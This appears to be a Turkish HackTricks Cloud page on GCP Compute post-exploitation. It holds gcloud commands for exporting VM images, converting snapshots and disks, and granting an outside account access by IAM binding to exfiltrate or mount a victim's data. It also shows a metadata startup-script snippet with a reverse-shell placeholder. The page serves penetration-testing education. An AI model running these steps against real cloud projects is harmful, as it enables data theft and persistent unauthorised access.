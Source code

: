 # GCP - Hesaplama Sonrası Sızma

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>

## Hesaplama

Hesaplama ve VPC (Ağ) hakkında daha fazla bilgi için:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Görüntüleri Yerel Olarak Dışa Aktar ve İncele

Bu, bir saldırganın **zaten mevcut görüntülerin içinde bulunan verilere erişmesine** veya **çalışan sanal makinelerin yeni görüntülerini oluşturmasına** ve çalışan VM'lerin verilerine erişmesine olanak tanır.

Bir VM görüntüsünü bir kovaya dışa aktarmak ve ardından aşağıdaki komutla indirip yerel olarak bağlamak mümkündür:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Bu işlemi gerçekleştirmek için saldırganın depolama kovasına ve kesinlikle **cloudbuild üzerinde ayrıcalıklara** ihtiyacı olabilir çünkü bu işlemi gerçekleştirmek için **hizmet** istenecektir.\
Ayrıca, bu işin çalışması için codebuild SA ve compute SA'nın ayrıcalıklı izinlere ihtiyacı vardır.\
cloudbuild SA `<proje-id>@cloudbuild.gserviceaccount.com` şunlara ihtiyaç duyar:

* roller/iam.serviceAccountTokenCreator
* roller/compute.admin
* roller/iam.serviceAccountUser

Ve SA `<proje-id>-compute@developer.gserviceaccount.com` şunlara ihtiyaç duyar:

* roller/compute.storageAdmin
* roller/storage.objectAdmin

### Anlık Görüntüleri ve Diskleri Yerel Olarak Dışa Aktarın ve İnceleyin

Anlık görüntüleri ve diskleri doğrudan dışa aktarmak mümkün değildir, ancak bir anlık görüntüyü bir diske, bir diski bir görüntüye **dönüştürmek** ve **önceki bölümü** takip ederek bu görüntüyü yerel olarak incelemek mümkündür.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Bir Görüntüyü İnceleme ve Bir Sanal Makine Oluşturma

Bir saldırganın bir görüntü oluşturduğu yerden bir görüntüde depolanan verilere veya çalışan bir sanal makinedeki verilere erişmek amacıyla, bir harici hesaba görüntü üzerinde erişim vermek mümkündür:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
ve ardından ondan yeni bir VM oluşturun:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Eğer dış hesabınıza görüntü üzerinde erişim veremediyseniz, kurbanın projesinde o görüntüyü kullanarak bir sanal makine başlatabilir ve metadata'yı geriye dönük bir kabuk çalıştırmak için değiştirebilirsiniz. Bunun için parametre ekleyin:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Bir Snapshot/Disk'i bir VM'ye bağlayarak İnceleyin

Bir diske veya snapshot'a erişmek amacıyla, snapshot'ı bir diske, diski bir görüntüye dönüştürebilir ve önceki adımları takip edebilirsiniz.

Veya **harici bir hesaba erişim izni verebilirsiniz** (başlangıç noktası bir snapshot ise, snapshot üzerinde erişim izni verin veya ondan bir disk oluşturun):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Bir diski** bir örneğe bağlayın:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Sanal makine içinde diski bağlayın:

1. **Sanal makineye SSH ile bağlanın**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Diski Tanımlayın**: Sanal makineye girdikten sonra, disk cihazlarını listelerken yeni diski tanımlayın. Genellikle `/dev/sdb`, `/dev/sdc` gibi bir şekilde bulabilirsiniz.
3. **Diski Biçimlendirin ve Bağlayın** (yeni veya ham bir diskse):
*   Bir bağlama noktası oluşturun:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Diski bağlayın:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Eğer **bir dış projeye snapshot veya diske erişim veremezseniz**, bu işlemleri snapshot/disk ile aynı projedeki bir örnekte gerçekleştirmeniz gerekebilir.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmaya kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek veya HackTricks'i PDF olarak indirmek için** [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) **kontrol edin**!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) **edinin**
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) **koleksiyonumuzu keşfedin**, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family)
* **💬 [Discord grubuna](https://discord.gg/hRep4RUj7f) veya [telegram grubuna](https://t.me/peass) katılın veya** **Twitter'da** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi HackTricks ve HackTricks Cloud github depolarına PR göndererek paylaşın**.

</details>

